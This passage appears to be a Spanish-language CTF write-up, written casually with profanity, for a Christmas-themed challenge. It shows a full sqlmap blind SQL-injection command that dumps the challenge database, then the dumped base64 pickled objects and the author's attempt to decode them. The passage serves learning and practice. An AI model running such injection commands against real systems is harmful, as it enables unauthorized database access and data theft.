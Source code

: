 Dumpeamos todo y a la verga.

`$ sqlmap -u http://challs.htsp.ro:13001/\(SELECT%20IIF\(1\=1\*,2,3\)\) --prefix="" --dbms=sqlite3 --technique=B -vv --string="Helping Santa" --dump-all`

![SQLmap](/ctf/assets/images/SQLmap.png)

# Pickle y la concha de tu madre.

Acá es donde me rebusque demasiado con algo tan simple. Claramente tenia el contenido de la tabla `elves`.

{% highlight text %}
Table: elves
[3 entries]
+----+------------------------------------------------------------------------------------------------------------------------------------------+
| id | data                                                                                                                                     |
+----+------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | gASVUAAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwJU25vd2ZsYWtllIwIYWN0aXZpdHmUjA1QYWNraW5nIGdpZnRzlIwCaWSUTnViLg==             |
| 2  | gASVSwAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwEQmVsbJSMCGFjdGl2aXR5lIwNSGVscGluZyBTYW50YZSMAmlklE51Yi4=                     |
| 3  | gASVWgAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwFU25vd3mUjAhhY3Rpdml0eZSMG0xvb2tpbmcgYXQgdGhlIG5hdWdodHkgbGlzdJSMAmlklE51Yi4= |
+----+------------------------------------------------------------------------------------------------------------------------------------------+

{% endhighlight %}

Listo digo, en alguno de esos `base64` tiene que estar el `flag`, a decodear. La chota.

{% highlight bash %}
$ echo -n "gASVWgAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwFU25vd3mUjAhhY3Rpdml0eZSMG0xvb2tpbmcgYXQgdGhlIG5hdWdodHkgbGlzdJSMAmlklE51Yi4="|base64 -d | xxd

00000000: 8004 955a 0000 0000 0000 008c 085f 5f6d  ...Z.........__m
00000010: 6169 6e5f 5f94 8c03 456c 6694 9394 2981  ain__...Elf...).
00000020: 947d 9428 8c04 6e61 6d65 948c 0553 6e6f  .}.(..name...Sno
00000030: 7779 948c 0861 6374 6976 6974 7994 8c1b  wy...activity...
00000040: 4c6f 6f6b 696e 6720 6174 2074 6865 206e  Looking at the n
00000050: 6175 6768 7479 206c 6973 7494 8c02 6964  aughty list...id
00000060: 944e 7562 2e                             .Nub.

{% endhighlight %}

Que poronga es esto?.

La verdad, estuve un rato largo para darme cuenta de que eso era un objeto serializado.

Hasta que mas o menos me avive, por que pensaba que podía ser, hice la prueba de fuego.

{% highlight python %}
>>> import pickle
>>> from base64 import b64decode
>>> pickle.loads(b64decode(b'gASVWgAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwFU25vd3mUjAhhY3Rpdml0eZSMG0xvb2tpbmcgYXQgdGhlIG5hdWdodHkgbGlzdJSMAmlklE51Yi4='))

Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
AttributeError: Can't get attribute 'Elf' on <module '__main__' (built-in)>

{% endhighlight %}
